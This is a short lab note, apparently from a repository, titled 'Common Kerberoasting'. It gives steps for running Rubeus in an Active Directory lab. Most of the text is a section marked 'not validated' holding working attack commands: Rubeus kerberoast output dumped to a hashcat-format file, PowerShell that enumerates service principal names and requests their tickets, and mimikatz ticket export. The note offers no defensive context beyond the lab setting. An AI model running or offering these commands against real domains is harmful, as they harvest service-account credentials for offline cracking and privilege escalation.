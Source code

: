# Common Kerberoasting
> Domain User Account Context

1. Open Powershell.
2. `cd c:\Users\Public\Dekstop\LAB_FILES\assets`
3. `expand-archive c:\Users\Public\Desktop\LAB_FILES\assets`
4. `cd Rubeus-1.6.4\Rubeus-1.6.4`
5. `rubeus.exe`



---------------not validated------------------------

Rubeus.exe kerberoast /ldapfilter:'admincount=1' /format:hashcat /outfile:C:\Users\Public\hashes.txt





"get-aduser -filter * -properties ServicePrincipalName | Select SamAccountName, ServicePrincipalName | where {$_.ServicePrincipalName -ne $null} | fl

Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList ""VULN SPN GOES HERE"""
"mimikatz
privilege::debug
kerberos::list /export"